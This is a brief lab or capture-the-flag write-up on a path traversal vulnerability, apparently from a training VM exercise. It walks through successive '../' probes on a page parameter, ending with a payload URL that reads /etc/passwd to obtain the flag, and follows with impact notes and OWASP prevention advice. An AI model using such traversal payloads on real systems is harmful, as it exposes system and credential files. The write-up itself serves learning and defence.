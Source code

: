 # PATH TRAVERSAL

## Explanation

I found the vulnerability "path traversal" on OWASP website.

In the examples provided :
- `http://some_site.com.br/some-page.asp?page=index.html`
  - => is said vulnerable to the following url vulnerability
- `http://some_site.com.br/some-page.asp?page=../../../../dir/file`

It's very similar to the system used in darly's website to navigate between pages
- `http://VM_IP/?page=`

I tried
- `http://VM_IP/?page=../../../`
  - => error message is `"Nope..."`
- `http://VM_IP/?page=../../../../../../../../../../../../../../`
  - => error message is `"You can DO it !!!  :]"`

Understood that I had to go for a specific file
OWASP explicitely says to try for the /etc/passwd file

- `http://VM_IP/?page=../../../../../../../etc/passwd`
  - => Got the flag

## Exploitation

This attack is for the attacker to access arbitrary files and directories stored on file system including :
  - application source code
  - configuration files
  - critical system files

The attacker could then use these pieces of information to penetrate the system further for example.

## Prevention

> - Don’t store sensitive configuration files inside the web root
> - Prefer working without user input when using file system calls
> - Ensure the user cannot supply all parts of the path – surround it with your path code

## Documentation

[OWASP - path traversal](https://owasp.org/www-community/attacks/Path_Traversal)